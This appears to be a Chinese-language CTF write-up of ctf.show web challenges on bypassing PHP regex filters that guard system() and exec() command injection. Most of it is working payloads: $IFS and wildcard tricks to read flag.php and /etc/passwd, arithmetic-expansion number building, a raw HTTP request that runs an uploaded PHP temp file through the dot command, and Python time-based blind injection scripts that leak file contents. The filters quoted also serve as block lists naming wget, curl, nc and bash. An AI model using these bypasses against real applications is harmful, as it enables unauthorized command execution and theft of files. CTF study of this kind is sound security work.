

## **不可字符分割绕过**
```
$c=$_GET['c'];
if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
```
若flag在当前目录的flag.php中
下面均可
```
?c=vi$IFS????????   //类似vi flag.php F12可以看到源码
?c=uniq$IFS????????
?c=uniq${IFS}????????
?c=/bin/c??$IFS????????    //在bin目录中读取c??  其实就是cat了
?c=grep${IFS}'{'${IFS}fl???php
（在 fl???php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行）


cmd=/bin/cat%20/etc/passwd
cmd=/usr/bin/find%20/%20-name%20flag*
```

^
## **无字符绕过**
```
if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    } 
```
若flag在当前目录的flag.php中
/bin/base64 flag.php
```
?c=/???/????64 ????.???
```
/usr/bin/bzip2 flag.php
压缩后访问/flag.php.bz2下载获得flag
```
?c=/???/???/????2 ????.???
```


^
## **无数字创数字**
```
//已知flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}
```
我们要绕过正则变一个36出来

```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) ))))
```


^
## **没有过滤.的php临时文件命令执行**
web56
```
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}
```
因为没有过滤'.'，而点命令在linux中是source的缩写，通过点命令，我们可以在没有执行权限的情况下执行sh命令。
原理是通过POST上传一个文件，文件内容是要执行的命令，并且同时点命令执行该文件，形成条件竞争。这个文件默认保存在/tmp/phpxxxx路径下，所以可以通过/???/????????[@-[]来来构成这个路径，[@-[]为匹配ascii码范围在@-[的字（A，Z被屏蔽，所以范围大一位），之所以用[@-[]是因为直接用/???/?????????匹配到的其他文件都是小写字母，只有php临时生成的文件才包含大写字母。就算这样，也不一定能够准确地匹配到我们的上传文件，所以可能要多次刷新。

使用postman或其他，POST上传临时文件，文件名任意
```
#!/bin/sh
ls
```
同时传参
```
?c=.%20/???/????????[@-[]
```
最终数据包如下：
```
POST /?c=.%20/???/????????[@-[] HTTP/1.1
Host: 13cf7637-c8fc-4c8e-901d-782b7a0c99fd.challenge.ctf.show
Accept-Encoding: gzip, deflate, br
User-Agent: PostmanRuntime/7.42.0
Content-Type: multipart/form-data; boundary=--------------------------974334232652972648027191
Accept: */*
Cache-Control: no-cache
Postman-Token: 12305bc1-76a8-4288-a75d-266bbc6679d3
Content-Length: 220

----------------------------974334232652972648027191
Content-Disposition: form-data; name="filename"; filename="1.txt"
Content-Type: text/plain

#!/bin/sh
cat flag.php
----------------------------974334232652972648027191--
```


^
## **延时盲注**
exec没有回显，并且过滤了. curl nc 写文件。
```
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
```
测试ls;sleep 3可以延时。
延时根目录/
```
import requests
import time
import string
str=string.ascii_letters+string.digits+'_~'
result=""
for i in range(1,10):#行
    key=0
    for j in range(1,15):#列
        if key==1:
            break
        for n in str:
           #awk 'NR=={0}'逐行输出获取
           #cut -c {1} 截取单个字符
            payload="if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i,j,n) #使用 cut -c 1 提取第一个字符。
            #print(payload)
            url="http://873b2081-3b04-4517-a10d-dcb44382c44c.challenge.ctf.show/?c="+payload
            try:
                requests.get(url,timeout=(2.5,2.5))
            except:
                result=result+n
                print(result)
                break
            if n=='~':
                key=1
                result+=" "
#找到flag：/f149_15_h3r3
```
延时flag文件中内容
```
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
    print(j)
    if key==1:
        break
    for n in str:
        payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n) #使用 cut -c 1 提取第一个字符。
        #print(payload)
        url="http://b76bf2c7-70e7-401f-a490-f5963e74b581.challenge.ctf.show/?c="+payload
        try:
            requests.get(url,timeout=(2.5,2.5))
        except:
            result=result+n
            print(result)
            break
```
